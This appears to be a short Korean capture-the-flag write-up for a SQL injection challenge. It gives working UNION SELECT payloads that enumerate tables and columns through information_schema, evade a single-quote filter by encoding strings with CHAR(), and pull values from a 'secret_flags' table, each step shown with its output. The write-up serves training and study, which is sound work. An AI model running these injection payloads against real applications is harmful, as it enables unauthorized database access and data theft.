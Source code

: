 
### 테이블 확인 
```sql
`?id=1 UNION SELECT 1,table_name,3,4,5,6,7,8 FROM information_schema.tables WHERE table_schema=CHAR(115,112,101,99,50)` 
```
`'`를 사용하지 못하기 때문에  ASCII 코드를 사용하여 `CHAR(115,112,101,99,50)` 변환

테이블 목록 : `comments`, `posts`, `secret_flags`

```
  {
    "post_id": "1",
    "title": "comments",

  {
    "post_id": "1",
    "title": "posts",

  },
  {
    "post_id": "1",
    "title": "secret_flags",

  }
```

### 컬럼명 확인 

```sql
?id=1 UNION SELECT 1,column_name,3,4,5,6,7,8 FROM information_schema.columns WHERE table_name=CHAR(115,101,99,114,101,116,95,102,108,97,103,115)
```
컬럼명 : `id`, `flag_name`, `flag_value`, `description`

```sql 
{
    "post_id": "1",
    "title": "id",
  
  },
  {
    "post_id": "1",
    "title": "flag_name",

  },
  {
    "post_id": "1",
    "title": "flag_value",

  },
  {
    "post_id": "1",
    "title": "description",

  }
```
### 플래그 추출 
`?id=1 UNION SELECT 1,flag_value,3,4,5,6,7,8 FROM secret_flags--+`  
